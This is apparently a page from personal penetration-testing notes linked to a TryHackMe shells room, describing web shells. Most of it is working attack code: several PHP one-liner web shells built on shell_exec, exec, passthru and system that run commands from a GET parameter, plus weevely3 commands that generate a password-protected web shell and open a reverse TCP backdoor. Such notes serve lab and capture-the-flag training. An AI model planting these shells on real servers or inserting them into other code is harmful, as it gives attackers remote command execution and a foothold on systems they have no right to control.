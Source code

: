 # Web shell

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)

[Go back](../index.md#remote-shell-)

<div class="row row-cols-md-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is **determined by the language the target web server understand**, such as PHP or JavaScript. ✨
</div><div>

For JavaScript, you need to find a way for the website to execute your web shell, as unlike PHP, it's not automatically done by visiting the web shell URL.

On Kali, you can find preinstalled web shells inside ([GitLab](https://gitlab.com/kalilinux/packages/webshells))

```bash
$ ls /usr/share/webshells
```
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-md-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0] ?? true); ?>` and using `?0=whoami`.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) (2.8k ⭐).

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

</div><div>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) (0.7k ⭐).

<br>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
</div><div>


</div></div>